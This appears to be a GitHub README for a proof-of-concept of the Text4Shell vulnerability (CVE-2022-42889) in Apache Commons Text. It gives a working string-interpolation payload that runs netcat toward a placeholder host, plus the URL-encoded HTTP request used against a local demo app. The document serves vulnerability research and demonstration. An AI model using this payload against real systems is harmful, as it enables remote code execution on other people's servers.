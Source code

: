 # CVE-2022-42889 Text4Shell
This vulnerability is found in Apache Commons Text v1.5-1.9 and allows a remote attacker to execute arbitrary code IF user controlled input makes its way directly into a `StringSubstituter` which is fairly rare to find in the wild.

The payload used in this POC is:
`${script:javascript:java.lang.Runtime.getRuntime().exec('nc 0.0.0.0 4444')}`

Which looks like this when part of an HTTP GET request:
`http://localhost:8080/Text4Shell/?search=$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec(%27nc%200.0.0.0%204444%27)%7D`

The app was built in Eclipse, a tutorial will be added soon if you want to build, run and test it yourself locally.

# Demo

https://user-images.githubusercontent.com/58807068/198384946-3a8736d9-64c6-4fb9-a2a0-47bf8627ffda.mp4
